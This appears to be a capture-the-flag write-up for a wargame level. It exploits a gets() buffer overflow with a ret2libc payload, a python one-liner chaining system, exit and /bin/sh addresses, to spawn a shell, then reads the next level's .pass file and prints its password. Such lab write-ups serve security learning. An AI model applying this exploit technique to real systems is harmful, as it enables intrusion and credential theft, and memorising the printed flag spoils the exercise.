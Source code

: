 get the binary on host
* `scp -P 4242 level2@192.168.56.107:./level2 ./binary/level2`

decompile using ghidra

we can use a buffer overflow to run a sh, but we can't pass hexa starting at \xbZ (no Z is valide)
```c
	void p(void)
	{
		uint unaff_retaddr;
		undefined local_50 [76];
		
		fflush(stdout);
		gets(local_50)
		if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
			printf("(%p)\n",unaff_retaddr);
							/* WARNING: Subroutine does not return */
			_exit(1);
		}
		puts(local_50);
		strdup(local_50);
		return;
	}
```
To bypass the check, we will add the address of return of function before our payload
* `/bin/sh`	=> 0xb7 f8 cc 58
* `system`	=> 0xb7 e6 b0 60
* `exit`    => 0xb7 e5 eb e0
* `p ret`   => 0x08 04 85 3e

Using our 80 char array + thoose address we can lauch a new shell.\
This array is `80 char` + `p ret` + `addr system` + `addr exit` + `addr "/bin/sh"`\
`python -c 'print "a"* 80 + "\x3e\x85\x04\x08" + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"' > /tmp/exploit_2; cat /tmp/exploit_2 - | ./level2`\
We can input our cat
* `cat /home/user/level3/.pass`
* and get the pass `492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02`